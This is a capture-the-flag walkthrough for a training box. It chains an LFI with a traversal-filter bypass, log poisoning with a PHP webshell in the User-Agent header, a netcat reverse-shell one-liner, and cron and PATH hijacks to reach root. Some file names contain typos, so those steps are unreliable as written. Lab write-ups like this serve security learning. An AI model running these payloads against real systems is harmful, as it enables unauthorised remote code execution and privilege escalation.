 # - AngelArch PLACE WRITEUP- #

1. Find Hostname (mail link) = mafialive.thm
    - Change Host file (`sudo nano /etc/hosts`)
    - add - IP hostname

2. Go to http://mafialive.thm for flag
    - Go to robots.txt
    - find flag + test.php

test.php LFI with wrapper = php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/test.php
take base64 output and decode to see php code - Get flag 2
PHP code detects ../.. but if you use .././.. it does the same thing but it is different

Use this to see logs
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././../var/log/apache2/access.log

LFI log poisioning

Open BurpSuite
Open BurpSuite Browser and send request to /text.php
Go to HTTP History, right click and send to repeater
Send shell :
GET / HTTP/1.1
Host: mafialive.thm
Upgrade-Insecure-Requests: 1
User-Agent: <?php shell_exec($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

Go to website and visit mafialive.thm/test.php?cmd=

make reverse shell at https://www.revshells.com/
rm /tmp/p;mkfifo /tmp/p;nc IP PORT 0</tmp/p|/bin/sh > /tmp/p 2>&1;rm /tmp/p
encode into URL (https://meyerweb.com/eric/tools/dencoder/ OR in console encodeURIComponent('text'))

terminal = nc -lvnp 1234
Visit this website
- http://mafialive.thm/test.php?cmd= ENCODED TEXT &view=/var/www/html/development_testing/.././.././.././.././.././../var/log/apache2/access.log

You have reverse shell
make shell nice = python3 -c "import pty;pty.spawn('bash')"

find / -perm /6000 -type f -executable 2>/dev/null 
see that crontab is on here


cat etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

we see that every minute archangel runs /helloworld
cd /opt
ls-la (shows us we can write to it)

ls -la
drwxrwxrwx  3 root      root      4096 Nov 20  2020 .
drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh

cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt

echo "rm /tmp/p;mkfifo /tmp/p;nc IP PORT 0</tmp/p|/bin/sh > /tmp/p 2>&1;rm /tmp/p" > hellowworld.sh
creating a reverse shell for user angel
cd secret and cat user2.txt

echo $PATH
/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
echo "/bin/bash" > cp
chmod +x cp
export PATH=$PWD:$PATH
./backup

and WE GOT ROOT
